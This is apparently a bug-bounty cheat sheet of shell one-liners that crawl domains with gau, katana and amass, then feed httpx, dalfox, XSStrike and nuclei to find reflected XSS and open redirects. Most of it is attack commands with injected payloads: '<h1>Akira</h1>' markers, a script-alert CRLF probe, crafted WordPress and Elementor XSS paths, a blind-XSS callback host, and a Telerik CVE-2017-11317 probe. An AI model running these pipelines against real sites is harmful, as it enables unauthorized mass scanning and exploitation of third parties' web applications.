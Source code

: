 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --level 3 -rate 2 --blind --file-log-level WARNING --log-file output.log

    cat list.txt | httpx | xargs -I {} python xsstrike.py -u {} --level 3  --blind --file-log-level WARNING --log-file output.log

## paramReflect
    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

## gau+uro+httpx(My Xss)
     cat domains.txt | gau --blacklist 3dm,3ds,3gp,7z,aac,ai,aif,apk,avi,bat,bin,BMP,bz2,cfg,class,CR2,csh,css,csv,dat,deb,dmg,doc,docx,dwg,eot,EPS,exe,EXIF,flac,flv,gba,gdb,gif,gz,HEIC,hqx,ICO,ico,ics,iso,jar,jpeg,jpg,js,json,lua,m4a,m4v,mov,mp3,mp4,msi,NEF,nes,nrg,odp,ods,odt,ogg,ogv,otf,PBM,pdf,PGM,pkg,plist,png,PPM,ppt,pptx,ps,PSD,RAW,rb,rpm,rtf,srt,SVG,svg,swf,sys,tar,TGA,TIFF,ttf,txt,vob,wav,WEBP,webp,woff,woff2,xls,xlsx,xml,xpi,yaml,z64,z7,zip --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt

     cat domains.txt | uro --filter hasparams | qsreplace '"><h1>Akira</h1>' > domain4httpx.txt

     cat domain4httpx.txt | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt

    #Note: have a server ? use:
    cat domains.txt | gau --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp | uro | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt
   
   ### oneLine:
    cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt

    cat params.js [.py|.go|paramspider.py] | uro --filter hasparams -b jpg png js json pdf txt -o 4xss.txt
## subdomain enumeration
    amass enum -active -d <DOMAIN> -dir amass_active/<DOMAIN>/
    amass enum -passive -d <DOMAIN> -dir amass_passive/<DOMAIN>/
    assetfinder <DOMAIN> | tee ./subdomains/assetfinder.txt

## web crawlling
    for i in $(cat hosts-urls.txt); do katana -u $i >> ./katana_rzlts.txt; done
    cat hosts-urls.txt | hakrawler -timeout 5 -subs | tee ./hakrawler_rzlts.txt
    cat hosts-live.txt | gau --threads 15 | tee ./gau_rzlts.txt
    cat hosts-live.txt | waybackurls | tee ./wburls_rzlts.txt

## filtering
        cat katana_rzlts.txt hakrawler_rzlts.txt gau_rzlts.txt wburls_rzlts.txt | sort -u > uniq.txt; cat uniq.txt | grep "<DOMAIN>" | grep "\?" > 4xss.txt
## wordpressXss:
    cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200

## Telerik RCE(CVE-2017-11317)
    cat subs.txt | /workspace/go/bin/httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms '"RadAsyncUpload handler is registered succesfully' -t 200 -o telerik2.txt

## Elementor Xss
    cat subs.txt | httpx -path "#elementor-action:action=lightbox&settings=eyJ0eXBlIjoibnVsbCIsImh0bWwiOiI8aDE+YWtpcmE8L2gxPiJ9" -ms <h1>akira</h1> -o elementorXss.txt -t 200

## Symphonic
    cat subs.txt | httpx -path "_fragment" -ms 'Oops An Error Occurred' -o symphonic.txt -t 200
    
## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt


## Nuclie
    cat domains.txt | nuclei -nt -es info -ept ssl -o data.txt
    nuclei -l domains.txt -nt -o data.txt
    nuclei -l domains.txt -t cves/2023 -o data.txt
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    
# dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599

